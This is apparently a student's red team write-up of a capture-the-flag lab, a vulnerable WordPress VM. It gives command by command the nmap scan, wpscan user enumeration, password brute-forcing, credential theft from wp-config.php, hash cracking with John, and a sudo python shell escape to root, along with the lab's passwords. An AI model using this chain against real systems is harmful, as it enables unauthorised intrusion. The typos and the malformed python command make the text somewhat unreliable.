








# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Command: $ nmap -sV 192.168.1.110
  
 

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open ssh
  - Port 80/tcp open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp Open netbios-ssn
  - Poert 445/tcp Open netbios-ssn
  

The following vulnerabilities were identified on each target:
- Target 1
  - List of Critical Vulnerabilities
Following user were identified by running wpscan command

Command: wpscan --url http://192.168.1.110/wordpress --enumerate u

Two users can be seen:

With a simple brut force user Michael password was cracked: Password was "michael"

Command:ssh michael@192.168.1.110
password: michael

 `flag1.txt`: 
 
   -Flag 1 was found in the following director:
    Command: cd /var/www/html
           : ls -al
           : nano services.html
           

`flag2.txt`:

    -Flage 2 was found in following directories:
     
     Command: cd /var/www/
            
            : ls -al

### Exploitation

Mysql server login credentials was listed in wp-config.php file from where steven password was cracked using john ripper and his account was used then to execute python to escalte root preveliage. Following steps were involved

Step 1:
-SSH into Michael account

command: ssh micheal@192.168.1.110

-Login credentials using MYSQL server, were found in wp-config.php file within var/www/html/wordpress directory.

-Flag 3 was found in the wp_posts table in the wordpress database.

Command: mysql -u root -p

password: R@v3nSecurity
  
  mysql> use wordpress;
        
        show table;
        
        SELECT * FROM wp_users;
        
        SELECT * FROM wp_posts;

Step 2:
Password was cracke using john ripper uing following command
command: john wp_hashes.txt
user steven password is cracked: pink84

Step 3:
Once the password hash was cracked, then SSH into Steven to execute python to escalte root privilege

Command: ssh steven@192.168.1.110

password: pink84
        
        :sudo -l
        
        :sudo python -c 'import pty;pty.spawn ('/bin/bash");'
        
        :cd /root
        
        :ls -al
        
        :cat falg4.txt
        

